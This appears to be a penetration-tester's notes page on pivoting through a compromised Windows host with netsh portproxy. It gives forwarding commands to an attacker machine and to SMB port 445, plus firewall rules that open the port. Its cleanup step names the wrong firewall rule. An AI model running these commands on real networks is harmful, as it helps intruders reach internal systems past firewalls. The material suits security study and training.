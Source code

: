 ## Overview
---
**Netsh** is a command-line scripting utility that allows you to display or modify network configuration settings. The **portproxy** function within Netsh enables you to configure port forwarding and address translation for network traffic between different systems, facilitating routing and redirection of network traffic from one port to another.

## Usage
---
Below is port forwarding syntax allowing us to forward traffic back to a port on our attacker (e.g., access to a simple web server hosting tools)

```powershell
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=<client_port> connectaddress=<attacker_ip> connectport=<attacker_port>
```

Above code would be running on a compromised <client_01> and allow <client_02> to reach a specified port on our attacker box. 

Shitty Diagram Below:
```
	                    | FW |
<client_02> ---> <client_01>:<port> ---> <attacker_ip><port>
						| FW |
```


**Diagram V2:**

```powershell
# Attacker: 192.168.1.10 | Client 1: 192.168.1.11, 10.10.10.11 | Client 2: 10.10.10.12 

# Port forward on Client 1 allowing attacker to reach port 445 on Client 2
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=6969 connectaddress=10.10.10.12 connectport=445

netsh advfirewall firewall add rule name="Example Port Forward" dir=in action=allow protocol=TCP localport=6969

# Result: Attacker can now reach Client 2 (10.10.10.12:445) by hitting Client 1 (192.168.1.11:6969) | Pending Firewall


# Port forward allowing Client 2 to download files from an Attacker web server
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=6969 connectaddress=192.168.1.10 connectport=80
# Client 2 can now pull files from an Attacker web server (192.168.1.10:80) by hitting Client 1 (10.10.10.11:6969) | Pending Firewall
```

### Examples

- **Attacker**: 192.168.1.10
- **Client 1 (Dual NIC'd)**: 192.168.1.11, 10.10.10.11
- **Client 2**: 10.10.10.12

**Example 1**: 

```powershell
# Port forward on Client 1 allowing Attacker to reach port 445 on Client 2
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=6969 connectaddress=10.10.10.12 connectport=445

# Add a Firewall rule to allow traffic through open port
netsh advfirewall firewall add rule name="Example Port Forward" dir=in action=allow protocol=TCP localport=6969
```

```mermaid
flowchart LR

A{Attacker}
B(to)
C{Client 1}
D(to)
E{Client 2}

A --> | IP: 192.168.1.10 | B
B --> | IP: 192.168.1.11 | C
B --> | Port: 6969 | C
C --> | IP: 10.10.10.11 | D
D --> | IP: 10.10.10.12 | E
D --> | Port: 445 | E
```

Example 2:

```powershell
# Port forward allowing Client 2 to download files from an Attacker web server
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=6969 connectaddress=192.168.1.10 connectport=80

# Add a Firewall rule to allow traffic through open port
netsh advfirewall firewall add rule name="Example Port Forward" dir=in action=allow protocol=TCP localport=6969

# Remove port proxy
netsh interface portproxy delete v4tov4 listenport=6969
# Remove firewall rule
netsh advfirewall firewall delete rule name="Proxy all the things"
```

- Mermaid Diagram:
```mermaid
flowchart RL

A{Client 2}
B(to)
C{Client 1}
D(to)
E{Attacker}

A --> | IP: 10.10.10.12 | B
B --> | IP: 10.10.10.11 | C
B --> | Port: 6969 | C
C --> | IP: 192.168.1.11 | D
D --> | IP: 192.168.1.10 | E
D --> | Port: 80 | E
```

- Shitty ASCII Diagram:
```
	                    | FW |
<client_02> ---> <client_01>:<port> ---> <attacker_ip><port>
						| FW |
```

